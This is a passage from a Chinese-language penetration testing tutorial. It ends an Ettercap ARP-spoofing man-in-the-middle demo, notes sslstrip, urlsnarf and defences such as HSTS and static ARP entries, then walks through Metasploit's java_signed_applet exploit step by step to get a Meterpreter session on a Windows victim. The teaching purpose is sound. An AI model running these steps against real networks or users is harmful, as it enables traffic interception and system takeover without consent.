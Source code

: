 Ettercap 将开始对受害者和路由器进行 ARP 欺骗。 Ettercap 将显示来自受害者的任何信息或数据。

恭喜！ 您已成功进行了一次完整的中间人攻击。

如果您愿意，您还可以使用诸如 sslstrip 和 urlsnarf 之类的工具，以从受害者那里获取一些额外信息。 **sslstrip**是一种 MITM 攻击，它迫使用户使用 HTTP 协议进行通信，而不是 HTTPS，攻击者可以查看所有 SSL 流量的明文。 **HTTP 严格传输安全性**（**HSTS**）是一种安全保护机制，可保护您免受此类威胁。 它防止 HTTPS 在发生 cookie 和浏览器劫持时被降级。 **urlsnarf**以 CLF 格式显示所有请求的 HTTP 流量，并可用于分析用户访问的网站和网站流量。 攻击者也可以使用它来窥探用户在互联网上搜索和访问的内容。

要停止攻击，请单击**开始**，然后选择**停止嗅探**，如下所示：

![中间人攻击](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_21.jpg)

停止攻击后，Ettercap 将发送一个 ARP 数据包，网络将在几分钟内恢复正常。 您可以使用 ARP 检测软件（如 XArp 或 Snort）来保护自己免受此类攻击。 此外，分配静态 ARP 条目可以帮助防止攻击。 它将告诉攻击者路由器的 MAC 地址是永久的，无法更改。 因此，它将忽略攻击者发送的所有 ARP 数据包。

# Metasploit

啊是的，Metasploit 是最臭名昭著的开源工具，供渗透测试人员和 IDS 开发人员使用！ **Metasploit Framework**是一个充满安全漏洞和脚本的数据库。 它是开发和执行针对目标系统的利用代码的最受欢迎的开源工具之一。 Metasploit UI 显示在以下屏幕截图中：

![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_22.jpg)

在下一个演示中，我们将利用 Windows 8.1 的 Java 漏洞。 此漏洞将允许攻击者获取系统信息或哈希转储，从网络摄像头中获取图片，授予管理权限，创建和运行可执行文件，创建后门等。 让我们开始吧！

1.  打开终端并键入`msfconsole`：

### 提示

您还可以运行`server postgresql start`或`service metasploit start`。

![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_24.jpg)

1.  现在键入`search java_signed_applet`：![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_25.jpg)

1.  然后键入`use exploit/multi/browser/java_signed_applet`：![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_26.jpg)

1.  现在键入`set SRVHOST <IPADDRESS>`：![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_27.jpg)

### 提示

用您的 Kali Linux IP 地址替换`<IPADDRESS>`。

1.  键入`exploit`：![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_28.jpg)

1.  在受害者的系统上，转到 Metasploit 提供的 URL 链接。 您应该收到以下内容：![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_29.jpg)

JVM 应该在受害者的系统上显示一个提示，询问他们是否信任已签名的小程序。如果用户正在运行较旧版本的 Java，它将显示**UNKNOWN**。一旦用户点击**Run**，Java 小程序将执行，从而利用 Java 在 Metasploit 中创建一个 Meterpreter 会话：

![Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-wrls-pentest-hisec-env/img/3183OS_08_30.jpg)
